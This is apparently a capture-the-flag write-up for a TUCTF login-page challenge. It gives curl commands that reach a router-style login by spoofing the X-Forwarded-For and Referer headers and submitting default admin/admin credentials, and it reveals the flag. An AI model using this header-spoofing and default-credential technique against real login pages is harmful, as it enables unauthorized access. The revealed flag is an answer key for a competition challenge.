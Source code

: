 #### Challenge:

Interesting login page, think you can crack it?

[chal.tuctf.com:30006](http://chal.tuctf.com:30006)

---

#### Solution:

```bash
curl http://chal.tuctf.com:30006/0.html
curl http://chal.tuctf.com:30006/1.html
curl http://chal.tuctf.com:30006/2.html

curl 'http://chal.tuctf.com:30006/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'x-forwarded-for: 192.168.1.254' -H 'Referer: http://chal.tuctf.com:30006/2.html' --data 'prot=http%3A&server=chal.tuctf.com%3A30006&authType=init&challengeCookie=&user=admin&passwd=admin&challengePwd=&ok=Log+In'
```

---

<details><summary>FLAG:</summary>

```
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}
```

</details>
<br/>
